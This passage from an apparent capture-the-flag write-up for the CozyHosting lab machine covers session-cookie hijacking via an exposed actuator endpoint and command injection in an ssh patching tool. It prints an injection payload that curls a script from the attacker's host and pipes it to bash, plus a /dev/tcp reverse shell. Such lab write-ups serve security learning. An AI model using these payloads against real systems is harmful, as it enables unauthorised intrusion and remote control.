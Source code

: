 ![mappings.png](/img/cozyhosting_img/mappings.png)

## Initial access

On this actuator endpoint, rather than getting ****just**** usernames, we are given what is likely a session token for a user named `kanderson`

![sess](/img/cozyhosting_img/sessions.png)

I'd already replaced my assigned cookie with `kanderson`'s in chrome, but you get the idea

Impersonating `kanderson`, we can go back to the login page and refresh it to be redirected to the admin dashboard. Here we see an automatic patching tool for an `ssh` service.

![admin-panel.png](/img/cozyhosting_img/admin-panel.png)

Trying to create a direct connection back to our machine throws a timeout error, even with `sshd` running - maybe on account of a private key mismatch (though it was probably not intended to ever *actually* function considering it was purpose-built for a CTF), but we can tell from the error URL parameters that the app is running `ssh` commands directly from a shell:

![ssh-params](/img/cozyhosting_img/ssh-params.png)

Strings from a `ssh` shell error

![redirect](/img/cozyhosting_img/redirect-showing-bash.png)

Confirmed by the error output, which contains the entire output of a `ssh` error

## Execution

So it would seem that not only are we executing a direct command onto the target system, but the automatic patching tool also doesn't escape malicious strings. It *does* execute our input prepended with `ssh`, but this is pretty trivial to bypass.

The solution I used here was to write a reverse shell script to a file and serve it over a python `http.server`. We can then `curl` its contents from the CMS, and finally pipe to bash to execute it.

This was slightly trickier than simply writing this as a URL-safe sequence, as character encoding like `%20` or `+` broke our commands upon reaching the shell, but we can use the  shell variable`${IFS}` to determine input field separation, which yields our desired word separator here.

```bash
host=n&username=%3bcurl${IFS}<http://10.10.14.40:9990/hello.sh|/bin/bash%3b${IFS}>
```

`$ cat hello.sh`

```bash
/bin/bash -i >& /dev/tcp/10.10.14.40/9999 0>&1
```

> Note that this method could probably be simplified; this is just what wound up working for me in the moment.
>
